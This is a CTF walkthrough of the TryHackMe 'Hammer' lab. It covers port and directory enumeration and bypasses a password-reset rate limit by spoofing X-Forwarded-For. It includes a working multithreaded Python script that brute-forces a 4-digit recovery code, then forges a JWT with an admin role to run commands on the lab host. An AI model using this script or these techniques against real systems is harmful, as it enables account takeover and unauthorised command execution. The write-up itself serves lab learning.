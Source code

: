 ```yaml
---
title: "Hammer TryHackMe"
tags:
    - machine
    - THM
    - Auth Bypass
    - JWT
date: "2024-09-16"
thumbnail: "/assets/img/hammer/thumb.png"
bookmark: true
---
```

# Description
---
With the Hammer in hand, can you bypass the authentication mechanisms and get RCE on the system?
What is the flag value after logging in to the dashboard?.......
What is the content of the file /home/ubuntu/flag.txt?..........

# Enumeration
let's start with Nmap Scan:
```bash
$ nmap -sC -sV -Pn 10.10.49.135 -T4 -p 0-2000
Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-15 23:02 EEST
Nmap scan report for 10.10.49.135
Host is up (0.079s latency).
Not shown: 1999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 f51db1e6cc75df6abee39012e6b9126d (RSA)
|   256 1b7a2234ed1bff9ec3d13d5cf0b48bc8 (ECDSA)
|_  256 5a72ff3298127238088edc9652cef65c (ED25519)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
``` 
Found two open ports:
1. 22 -> ssh
2. 1337 -> http

`http://10.10.49.135:1337/`, we get a login form.
Testing the form with default credentials, we get the message: `Invalid email address!`
<img src="/assets/img/hammer/1.png">
ok, let me look at the src code 
<img src="/assets/img/hammer/2.png">

nice,the developer forgot a note about directory naming -> `hmr_directory_name`
i love using `ffuf` for fuzzing :
```bash
$ ffuf -u http://10.10.49.135:1337/hmr_FUZZ -w /usr/share/wordlists/dirb/small.txt  -mc 200,301 -ac

[Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 81ms]
    * FUZZ: css
[Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 76ms]
    * FUZZ: images
[Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 108ms]
    * FUZZ: js
[Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 83ms]
    * FUZZ: logs
```
found `hmr_logs` has `error.logs` file let's open it 
<img src="/assets/img/hammer/3.png">

we discover an email address: `tester@hammer.thm`

# Bypassing the Rate Limit
---
Now that we discovered a valid email address, we can try to reset the password for the user at `http://10.10.63.156:1337/reset_password.php`
<img src="/assets/img/hammer/4.png">
4-digit recovery code ....!,So i can brute-force it easily 
let's send normal request with code -> 0000
<img src="/assets/img/hammer/5.png">

Oops there is a `Rate-Limit-Pending:9` header on response
If we continue to make requests in quick succession, we will see it decreasing
And when it reaches `zero`, we see that now we are getting `rate-limited`.
<img src="/assets/img/hammer/6.png">

now my mission is bypassing this rate limit so i added `X-Forwarded-For` header with value `127.0.0.1` , this make me bypass the limit 
<img src="/assets/img/hammer/7.png">
but again if the counter reaches zero, we will be once again rate-limited
<img src="/assets/img/hammer/8.png">

but what if i changed the provided ip like this -> `X-Forwarded-For :127.0.0.2`
now able to reset the counter again 
<img src="/assets/img/hammer/9.png">

# Brute Forcing Script
---
scripting time for brute-forcing the 4 digit code & bypassing the rate limit 
chat-gpt helped me to write this script:
```python 
import requests
import random
import threading
# Target URL
url = "http://10.10.49.135:1337/reset_password.php"

# Event flag to stop threads when the correct code is found
stop_flag = threading.Event()

# Number of threads to use
num_threads = 50

# Generate a random 'X-Forwarded-For' header in the form '127.0.$.$'
def random_ip():
    return f"127.0.{random.randint(0, 255)}.{random.randint(0, 255)}"

# Brute-force function executed by each thread
def brute_force_code(session, start, end):
    for code in range(start, end):
        code_str = f"{code:04d}"  # Format code as 4 digits
        try:
            response = session.post(
                url,
                data={"recovery_code": code_str, "s": "180"},  # 's' parameter is fixed
                headers={"X-Forwarded-For": random_ip()},  # Use random IP
                allow_redirects=False  # Disable redirects
            )
            
            if stop_flag.is_set():
                return  # Stop if the flag is set by another thread
            
            # Check if we hit a rate limit (status code 302 in this case)
            if response.status_code == 302:
                stop_flag.set()  # Stop all threads
                print("[-] Timeout reached. Try again.")
                return
            
            # Check for a successful recovery code (modify based on server's response)
            if "Invalid or expired recovery code!" not in response.text:
                stop_flag.set()
                print(f"[+] Found the recovery code: {code_str}")
                print("[+] Printing the response: ")
                print(response.text)
                return

        except Exception as e:
            pass  # Ignore exceptions for now

# Main function to handle multithreading and start the brute-force process
def main():
    session = requests.Session()

    # Sending the password reset request
    print("[+] Sending the password reset request.")
    session.post(url, data={"email": "tester@hammer.thm"})

    # Brute-forcing the recovery code
    print("[+] Starting the code brute-force.")
    code_range = 10000  # Range of 4-digit codes (0000-9999)
    step = code_range // num_threads
    threads = []

    # Create and start threads
    for i in range(num_threads):
        start = i * step
        end = start + step
        thread = threading.Thread(target=brute_force_code, args=(session, start, end))
        threads.append(thread)
        thread.start()

    # Wait for all threads to finish
    for thread in threads:
        thread.join()

if __name__ == "__main__":
    main()

```
run the script 
<img src="/assets/img/hammer/10.png">
I got the code , now I can reset the password to: 123456789
<img src="/assets/img/hammer/11.png">

I have credentials `tester@hammer.thm:123456789` let's login at `http://10.10.49.135:1337/` ,I get redirected to `http://10.10.63.156:1337/dashboard.php` where we get our first flag.
<img src="/assets/img/hammer/12.png">

# Key File
---
in the dashboard there is input `Enter Command` let's see the request on burp with command `ls`
<img src="/assets/img/hammer/13.png">

it gaves me list of files one of them called `188ade1.key` 
<img src="/assets/img/hammer/14.png">

if i tried another command it gaves me `Command not allowed`
So,what this key for? and how can i use it ??? huuh there is a jwt i think i can use this key at `Verify the SIGNATURE`
so let's go back to the burp and change the signature of the jwt 
<img src="/assets/img/hammer/15.png">

`invalid Token`
# JWT
---
let's analysis the jwt on JWT.io , i found that :
`kid` take a file-> can put 188ade1.key file
`role` is `user` -> can change it to admin
first let's pass the file to it and it's content to signature
<img src="/assets/img/hammer/16.png">
here we go 
<img src="/assets/img/hammer/17.png">

now change the role to admin and send the request with `id` command
<img src="/assets/img/hammer/18.png">

Nice, now i can read the content of the file `/home/ubuntu/flag.txt`
<img src="/assets/img/hammer/19.png">

Honestly, this was an awesome machine, and I learned a lot from it. I hope you enjoy this walkthrough!